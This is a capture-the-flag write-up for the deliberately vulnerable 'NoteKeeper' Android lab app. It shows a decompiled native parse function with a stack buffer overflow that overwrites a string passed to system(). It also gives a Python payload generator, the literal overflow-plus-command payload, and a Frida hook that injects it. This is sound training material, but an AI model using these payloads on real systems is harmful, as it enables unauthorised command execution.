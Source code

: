 #ctf #bof #code-execution #rev-libraries #python #frida #hook 
**Description**: Welcome to the **NoteKeeper** Application, where users can create and encode short notes. However, lurking within the app is a critical buffer overflow vulnerability. Your mission is to uncover this vulnerability and exploit it to achieve remote code execution.

**Download**: https://lautarovculic.com/my_files/notekeeper.apk
**Link**: https://www.mobilehackinglab.com/path-player?courseid=lab-notekeeper

![[notekeeper.png]]

Install the app with **ADB**
```bash
adb install -r notekeeper.apk
```

We can see how this notes app allows us to **enter a title and description**.
In addition, once we *save the note*, it shows us a **character counter** (*of the description*).

Let's decompile the **apk** with **apktool**
```bash
apktool d notekeeper.apk
```
Also, let's inspect the **source code** with **jadx**.

We can see that this app call an **library**
```java
static {
    System.loadLibrary("notekeeper");
}
```
Let's see the code of some function.
We can see this function:
`Java_com_mobilehackinglab_notekeeper_MainActivity_parse`
With this content:
```C
Java_com_mobilehackinglab_notekeeper_MainActivity_parse
          (_JNIEnv *param_1,undefined8 param_2,_jstring *param_3)

{
  int local_2a8;
  char local_2a4 [100];
  char acStack_240 [500];
  int local_4c;
  ushort *local_48;
  _jstring *local_40;
  undefined8 local_38;
  _JNIEnv *local_30;
  undefined8 local_28;
  
  local_40 = param_3;
  local_38 = param_2;
  local_30 = param_1;
  local_48 = (ushort *)_JNIEnv::GetStringChars(param_1,param_3,(uchar *)0x0);
  local_4c = _JNIEnv::GetStringLength(local_30,local_40);
  memcpy(acStack_240,"Log \"Note added at $(date)\"",500);
  if (local_48 == (ushort *)0x0) {
    local_28 = 0;
  }
  else {
    local_2a4[0] = FUN_00100bf4(*local_48 & 0xff);
    for (local_2a8 = 1; local_2a8 < local_4c; local_2a8 = local_2a8 + 1) {
      local_2a4[local_2a8] = (char)local_48[local_2a8];
    }
    system(acStack_240);
    local_2a4[local_2a8] = '\0';
    local_28 = _JNIEnv::NewStringUTF(local_30,local_2a4);
  }
  return local_28;
}
```

Let's explain where the **buffer overflow** is.
- The overflow occurs in `local_2a4`, a **100-byte buffer**, when **data is copied** from `local_48` *without validating its size*.
- This allows **overwriting adjacent values on the stack**, including the `acStack_240` string, used in the **dangerous `system()` function**.

**How we can inject the malicious code?**
- We injected a **malicious payload that overflowed `local_2a4`** and **modified the contents** of `acStack_240`.
- We **exploited the call** to `system(acStack_240)` to execute **arbitrary commands** (`id`) on the system.

**Why this can work?**
- There was no **boundary validation in the loop that copies data** to `local_2a4`.
- The `system()` command *directly executes* what is in `acStack_240`.

But, **where we inject the payload?**
According to **`MainActivity.java`** class, we can see that the **parse** function of the **library** is used in the **title**
```java
String cap_title = this$0.parse(title_);
```
And
```java
public final native String parse(String Title);
```
- The title (`title_`) is **passed directly to the native parse method**, where the buffer overflow occurs.
- The description (`note_con`) is **not passed to the native method**, but is used only to display content in the interface.

So, the *char counter* doesn't matter clearly.
- The **native parse method works with `param_3`**, which **directly receives the title** as a String.
- In the C code, the **title is converted to a pointer (`local_48`)** and copied into the vulnerable buffer `local_2a4`.
```C
local_48 = (ushort *)_JNIEnv::GetStringChars(param_1,param_3,(uchar *)0x0);
```

So let's use this python script:
```python
# buffer local_2a4 (100 bytes)
payload = "A" * 100
# Padding
payload += "BBBB" * 5
# command to execute 'system(acStack_240)'
payload += "; id > /data/data/com.mobilehackinglab.notekeeper/test.txt"

with open("payload.txt", "w") as f:
    f.write(payload)

print("[+] Payload generated:")
print(payload)
print("[+] Saved as 'payload.txt'")
```
Then, copy the payload:
```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB; id > /data/data/com.mobilehackinglab.notekeeper/outputCommand.txt
```
And check the content with **ADB**
```bash
cat /data/data/com.mobilehackinglab.notekeeper/outputCommand.txt
```

Also you can try make it **intercepting** with **frida** the **title**, then **replace it with the payload**.
```javascript
Java.perform(function () {
    var MainActivity = Java.use('com.mobilehackinglab.notekeeper.MainActivity');

    // Hooking
    var parse = MainActivity.parse.overload('java.lang.String');
    parse.implementation = function (title) {
        console.log("[+] Intercepting parse...");
        console.log("[+] Original Title: " + title);

        // Craft payload
        var payload = "A".repeat(100); // Overflow buffer
        payload += "BBBB"; // Padding
        payload += "; id > /data/data/com.mobilehackinglab.notekeeper/fridaInection.txt";

        console.log("[+] Injected payload: " + payload);

        // Call to the function
        return parse.call(this, payload);
    };
});
```

![[notekeeper2.png]]

I hope you found it useful (: